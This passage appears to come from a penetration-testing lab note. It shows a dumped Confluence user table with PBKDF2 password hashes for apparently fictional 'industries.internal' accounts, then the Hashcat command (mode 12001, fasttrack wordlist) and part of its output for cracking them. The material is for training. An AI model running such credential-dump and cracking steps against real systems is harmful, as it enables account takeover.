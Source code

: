 ```
---------+----------------+-----------------+--------+-------------------------+-------------------------+------------+------------------+---------------+-----------------+------------------------+------------------------+------------------------------------+------------------------------------+--------------------------------------+--------------+---------------------------------------------------------------------------
  458753 | admin          | admin           | T      | 2022-08-17 15:51:40.803 | 2022-08-17 15:51:40.803 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | c2ec8ebf-46d9-4f5f-aae6-5af7efadb71c |       327681 | {PKCS5S2}WbziI52BKm4DGqhD1/mCYXPl06IAwV7MG7UdZrzUqDG8ZSu15/wyt3XcVSOBo6bC
 1212418 | trouble        | trouble         | T      | 2022-08-18 10:31:48.422 | 2022-08-18 10:31:48.422 |            |                  | Trouble       | trouble         | Trouble                | trouble                | trouble@industries.internal        | trouble@industries.internal        | 164eb9b5-b6ef-4c0f-be76-95d19987d36f |       327681 | {PKCS5S2}A+U22DLqNsq28a34BzbiNxzEvqJ+vBFdiouyQg/KXkjK0Yd9jdfFavbhcfZG1rHE
 1212419 | happiness      | happiness       | T      | 2022-08-18 10:33:49.058 | 2022-08-18 10:33:49.058 |            |                  | Happiness     | happiness       | Happiness              | happiness              | happiness@industries.internal      | happiness@industries.internal      | b842163d-6ff5-4858-bf54-92a8f5b28251 |       327681 | {PKCS5S2}R7/ABMLgNl/FZr7vvUlCPfeCup9dpg5rplddR6NJq8cZ8Nqq+YAQaHEauk/HTP49
 1212417 | database_admin | database_admin  | T      | 2022-08-18 10:24:34.429 | 2022-08-18 10:24:34.429 | Database   | database         | Admin Account | admin account   | Database Admin Account | database admin account | database_admin@industries.internal | database_admin@industries.internal | 34901af8-b2af-4c98-ad1d-f1e7ed1e52de |       327681 | {PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0
 1212420 | hr_admin       | hr_admin        | T      | 2022-08-18 18:39:04.59  | 2022-08-18 18:39:04.59  | HR         | hr               | Admin         | admin           | HR Admin               | hr admin               | hr_admin@industries.internal       | hr_admin@industries.internal       | 2f3cc06a-7b08-467e-9891-aaaaeffe56ea |       327681 | {PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV
 1441793 | rdp_admin      | rdp_admin       | T      | 2022-08-20 20:46:03.325 | 2022-08-20 20:46:03.325 | RDP        | rdp              | Admin         | admin           | RDP Admin              | rdp admin              | rdp_admin@industries.internal      | rdp_admin@industries.internal      | e9a9e0f5-42a2-433a-91c1-73c5f4cc42e3 |       327681 | {PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34
(6 rows)

(END)
```

We receive several rows of user information. Each row contains data for a single Confluence user, including their password hash
+ We will use <mark style="background: #D2B3FFA6;">Hashcat</mark> to try to crack these

The Hashcat mode number for _Atlassian (PBKDF2-HMAC-SHA1)_ hashes is _12001_, so we can pass that to the **-m** mode flag
+ After copying the hashes into a file called **hashes.txt**, we'll pass this as the first positional argument
+ We can then pass the **fastrack.txt** password list that's built into Kali as the final positional argument
+ Usage:
```
hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt
```
+ Example output:
```
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz, 2917/5899 MB (1024 MB allocatable), 4MCU
```